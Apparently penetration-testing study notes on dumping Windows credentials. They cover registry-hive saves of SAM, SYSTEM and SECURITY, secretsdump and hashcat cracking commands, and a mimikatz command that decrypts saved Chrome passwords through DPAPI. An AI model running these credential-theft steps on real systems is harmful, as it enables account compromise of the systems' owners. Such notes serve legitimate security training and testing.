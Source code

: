 # Extracting Password from Windows Systems

## SAM, SYSTEM, and SECURITY

With administrative access to a Windows system, we can attempt to quickly dump the files associated with the SAM database, transfer them to our attack host, and begin cracking the hashes offline.

Registry hives

| Registry Hive    | Description                                                                                                                                 |
|------------------|---------------------------------------------------------------------------------------------------------------------------------------------|
| HKLM\SAM         | Contains password hashes for local user accounts. These hashes can be extracted and cracked to reveal plaintext passwords.                |
| HKLM\SYSTEM      | Stores the system boot key, which is used to encrypt the SAM database. This key is required to decrypt the hashes.                        |
| HKLM\SECURITY    | Contains sensitive information used by the Local Security Authority (LSA), including cached domain credentials (DCC2), cleartext passwords, DPAPI keys, and more. |

To decrypt SAM, just use sam and system.

**Using reg.exe to copy registry hives**
````
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save
C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save
C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save
````
**File Directory**
````
> C:\Windows\System32\config\SAM
> C:\Windows\System32\config\SECURITY
> C:\Windows\System32\config\SYSTEM
````
Copy to local machine
````
$ impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL
$ impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL

$ sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
$ hashcat -m 2100 '$DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25' /usr/share/wordlists/rockyou.txt
````

**DPAPI**
In addition to the DCC2 hashes, we previously saw that the machine and user keys for DPAPI were also dumped from hklm\security. The Data Protection Application Programming Interface, or DPAPI, is a set of APIs in Windows operating systems used to encrypt and decrypt data blobs on a per-user basis.

| Applications              | Use of DPAPI                                                                                   |
|---------------------------|-----------------------------------------------------------------------------------------------|
| Internet Explorer         | Password form auto-completion data (username and password for saved sites).                  |
| Google Chrome             | Password form auto-completion data (username and password for saved sites).                  |
| Outlook                   | Passwords for email accounts.                                                                 |
| Remote Desktop Connection | Saved credentials for connections to remote machines.                                        |
| Credential Manager        | Saved credentials for accessing shared resources, joining Wireless networks, VPNs and more.  |

DPAPI encrypted credentials can be decrypted manually with tools like Impacket's dpapi, mimikatz, or remotely with DonPAPI.

````
C:\Users\Public> mimikatz.exe
mimikatz # dpapi::chrome /in:"C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data" /unprotect
````
